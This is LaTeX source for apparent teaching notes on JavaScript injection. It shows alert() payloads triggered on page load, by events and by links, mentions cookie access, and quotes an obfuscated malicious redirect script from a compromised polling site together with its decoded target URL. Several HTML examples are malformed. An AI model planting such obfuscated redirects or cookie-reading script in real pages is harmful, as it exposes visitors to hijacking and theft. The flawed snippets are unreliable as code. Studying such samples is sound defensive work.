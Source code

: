 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\begin{itemize}
	\item executed by the browser when the page is loaded
	\begin{footnotesize}
	\begin{lstlisting}
	<script> alert("Javascript msg")</script>
	\end{lstlisting}
	\end{footnotesize}
	\item triggered by events
	\begin{footnotesize}
	\begin{lstlisting}
	<a href src="seconddomain.com" onmouseover="alert("Javascript msg")">
	\end{lstlisting}
	\end{footnotesize}
	\item triggered by user actions
	\begin{footnotesize}
	\begin{lstlisting}
	<a href src="Javascript: alert("Javascript msg");">Second domain.com</a>
	\end{lstlisting}
	\end{footnotesize}
\end{itemize}
Javascript can access elements of the DOM (Document Objected Model), like forms and links 
\begin{footnotesize}
\begin{lstlisting}
	document.cookie;
\end{lstlisting}
\end{footnotesize}
or of the BOM (Browser Objected Model), like window and location.
\begin{footnotesize}
\begin{lstlisting}
	location.replace("thirddomain.com");
\end{lstlisting}
\end{footnotesize}
An example of content compromisation is the one found by Provos in 2006, on a website to create and publish customised online polls. It is an obfuscated javascript code.
\begin{footnotesize}
	\begin{lstlisting}
	<SCRIPT language=JavaScript>
	function otqzyu(nemz)juyu="lo";sdfwe78="catio";
	kjj="n.r";vj20=2;uyty="eplac";iuiuh8889="e";vbb25="('";
	awq27="";sftfttft=4;fghdh="'ht";ji87gkol="tp:/";
	polkiuu="/vi";jbhj89="deo";jhbhi87="zf";hgdxgf="re";
	jkhuift="e.c";jygyhg="om'";dh4=eval(fghdh+ji87gkol+
	polkiuu+jbhj89+jhbhi87+hgdxgf+jkhuift+jygyhg);je15="')"; if
	(vj20+sftfttft==6) eval(juyu+sdfwe78+kjj+ uyty+
	iuiuh8889+vbb25+awq27+dh4+je15);
	otqzyu();//
	</SCRIPT>
	
	location.replace('http://videozfree.com')
	\end{lstlisting}
\end{footnotesize}
\end{document}
